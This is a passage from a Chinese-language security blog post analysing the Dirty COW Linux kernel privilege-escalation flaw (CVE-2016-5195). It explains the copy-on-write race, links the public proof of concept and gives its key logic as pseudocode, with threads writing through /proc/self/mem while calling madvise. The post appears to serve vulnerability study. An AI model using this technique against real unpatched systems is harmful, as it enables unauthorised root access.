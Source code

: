 > 原文链接: https://www.anquanke.com//post/id/84851 


# 【漏洞分析】11月4日：深入解读脏牛Linux本地提权漏洞（CVE-2016-5195）


                                阅读量   
                                **268392**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t0166e069161f48cb21.jpg)](https://p4.ssl.qhimg.com/t0166e069161f48cb21.jpg)

****

**作者：**[**elemeta**](http://bobao.360.cn/member/contribute?uid=52377967)

**稿费：600RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至linwei#360.cn，或登陆<strong><strong><strong>[<strong>网页版**](http://bobao.360.cn/contribute/index)</strong></strong></strong>在线投稿</strong>



**0x00 概述**

该漏洞是Linux的一个本地提权漏洞，发现者是Phil Oester，影响&gt;=2.6.22的所有Linux内核版本，修复时间是2016年10月18号。该漏洞的原因是get_user_page内核函数在处理Copy-on-Write(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。当我们向带有MAP_PRIVATE标记的只读文件映射区域写数据时，会产生一个映射文件的复制(COW)，对此区域的任何修改都不会写回原来的文件，如果上述的竞态条件发生，就能成功的写回原来的文件。比如我们修改su或者passwd程序就可以达到root的目的。

<br>

**0x01 POC分析**

POC的地址如下：[[https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c]](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c), 下面是POC关键部分的伪代码:



```
Main:
    fd = open(filename, O_RDONLY)
    fstat(fd, &amp;st)
    map = mmap(NULL, st.st_size , PROT_READ, MAP_PRIVATE, fd, 0)
    start Thread1
    start Thread2
    
Thread1：
    f = open("/proc/self/mem", O_RDWR)
    while (1):
        lseek(f, map, SEEK_SET)
        write(f, shellcode, strlen(shellcode))
        
Thread2：
    while (1):
        madvise(map, 100, MADV_DONTNEED)
```

